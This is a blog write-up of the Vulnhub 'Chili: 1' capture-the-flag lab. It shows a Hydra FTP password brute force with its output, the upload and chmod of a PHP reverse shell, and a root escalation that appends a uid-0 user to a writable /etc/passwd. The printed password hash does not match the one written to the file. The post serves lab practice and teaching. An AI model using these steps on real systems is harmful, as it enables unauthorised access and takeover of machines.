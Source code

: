 ```yaml
---
layout: post
title:  "Vulnhub - Chili: 1"
date:   2020-09-15 20:00:00 +1000
category: hacking
---
```


## Introduction
*Difficulty: Easy  
Tested: VMware Workstation 15.x Pro (This works better with VMware rather than VirtualBox)  
Goal: Get the root shell i.e.(root@localhost:~#) and then obtain flag under /root).*

Okay then, let's go.

## nmap
All we've got is FTP and HTTP on port 80; nothing else. Nothing on the top 1000 UDP ports. FTP is VSFTPD 3.0.3 which is not vulnerable; same with Apache 2.4.38. 

# FTP
Anonymous login is not allowed. Fuzzing for subdomains turns up nothing, and gobusting turns up nothing either, even with the larger wordlists. We did get a picture of a Chili from the front page of the webserver, but the usual stego attacks get nothing (stegcracker, checking LSBs, exiftool, binwalk etc).

This box is supposed to be easy - what does that leave? Bruteforcing FTP.

{% highlight shell %}
root@kali:/opt/vulnhub/chili# hydra -l chili -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 192.168.1.80 ftp
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-15 11:58:24
[DATA] max 16 tasks per 1 server, overall 16 tasks, 9999 login tries (l:1/p:9999), ~625 tries per task
[DATA] attacking ftp://192.168.1.80:21/
[STATUS] 289.00 tries/min, 289 tries in 00:01h, 9710 to do in 00:34h, 16 active
[21][ftp] host: 192.168.1.80   login: chili   password: a1b2c3d4
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-09-15 12:00:09
{% endhighlight %}

Okay, so we're in.

After some enumeration on the box turns up nothing useful, it's time to try putting a shell on the server and executing it. We can **put** with FTP, but only in one particular web directory: */var/www/html/.nano/*.

We can load the shell just fine (pentest monkey, as usual), but initially it won't fire. Why not? We need to chmod it.

{% highlight shell %}
ftp> chmod 775 shell.php
200 SITE CHMOD command ok.
{% endhighlight %}

Once that's done, we can catch our shell and we're on the box.

## Privesc
Linpeas to the rescue; **/etc/passwd** is writeable. Same as [sunset/twilight](https://blog.gibbons.digital/hacking/2020/08/27/twilight.html):

{% highlight shell %}
www-data@chili:/dev/shm$ openssl passwd mrcake
openssl passwd mrcake
UOdKS1eML4FfM
www-data@chili:/dev/shm$ echo "root2:WVLY0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
<Y0mgH0RtUI:0:0:root:/root:/bin/bash" >> /etc/passwd
www-data@chili:/dev/shm$ su root2
su root2
Password: mrcake

root@chili:/dev/shm# cd /root
cd /root
root@chili:~# ls -lash
ls -lash
total 32K
4.0K drwx------  3 root root 4.0K Sep  8 13:15 .
4.0K drwxr-xr-x 18 root root 4.0K Sep  7 02:47 ..
4.0K -rw-------  1 root root  126 Sep  8 13:15 .bash_history
4.0K -rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
4.0K drwxr-xr-x  3 root root 4.0K Sep  8 11:43 .local
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -rw-r--r--  1 root root   47 Sep  8 12:26 proof.txt
4.0K -rw-r--r--  1 root root  176 Sep  8 11:43 .wget-hsts
root@chili:~# cat proof.txt
cat proof.txt
Sun_CSR.Chili.af6d45da1f1181347b9e2139f23c6a5b
{% endhighlight %}
